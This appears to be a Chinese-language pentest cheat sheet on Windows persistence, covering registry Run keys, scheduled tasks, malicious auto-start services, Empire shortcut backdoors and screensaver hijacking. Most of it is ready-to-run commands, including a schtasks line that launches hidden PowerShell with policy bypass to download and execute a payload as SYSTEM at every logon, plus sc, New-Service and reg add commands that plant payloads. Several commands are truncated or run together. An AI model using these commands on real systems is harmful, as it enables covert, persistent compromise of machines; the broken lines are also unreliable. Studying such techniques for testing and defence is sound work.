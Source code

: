 ## 1.注册表启动项

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

![image-20240529172846893](images/image-20240529172846893.png)

## 2.计划任务

在命令提示符下，“ schtasks ”可执行文件可用于创建计划任务，该任务将在每个 Windows 登录中以 SYSTEM 的形式下载并执行基于 PowerShell 的有效负载。

```
schtasks /create /tn PentestLab /tr"c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe             -WindowStyle hidden -NoLogo-NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient)
```

## 3.新服务

如果账户具有本地管理员权限，则可以从命令提示符创建服务。参数 Binpath 用执行任意有效负载，而参 数 Auto 用于确保恶意服务将自动启动。

```
sc create pentestlab binpath= "cmd.exe /k C:\temp\pentestlab.exe" start="auto" obj="LocalSystem"sc start pentestlab
```

从 CMD 创建或者可以直接从 PowerShell 创建新服务：

```
New-Service -Name "pentestlab" -BinaryPathName "C:\temp\pentestlab.exe" -Description "PentestLaboratories" -StartupType AutomaticSc start pentestla
```

#### 4.快捷方式

Empire 包含一个持久性模块，该模块可以合理地使用后门快捷方式，以执行任意的 PowerShell 有效负载。现有快捷方式的目标字段将被修改以执行存储在注册表项中的 base64 脚本。

## 5.屏幕保护程序

屏幕保护程序设置存储在注册表中，是具有.scr 文件扩展名的可执行文件

```
HKCU\Control Panel\Desktop\SCRNSAVE.exe
HKCU\Control Panel\Desktop\ScreenSaveaActive
HKCU\Control Panel\Desktop\ScreenSaverSecure
HKCU\Control Panel\Desktop\ScreenSaveTimeOut
```

可以通过命令提示符或者从 PowerShell 控制台修改或者添加注册表项。由于.scr 文件本质上是可执行文件，因此连个扩展名 都可以用于后门植入

```
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.exe
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\tmp\pentestlab.scr
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.exe' New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'c:\tmp\pentestlab.scr'
```
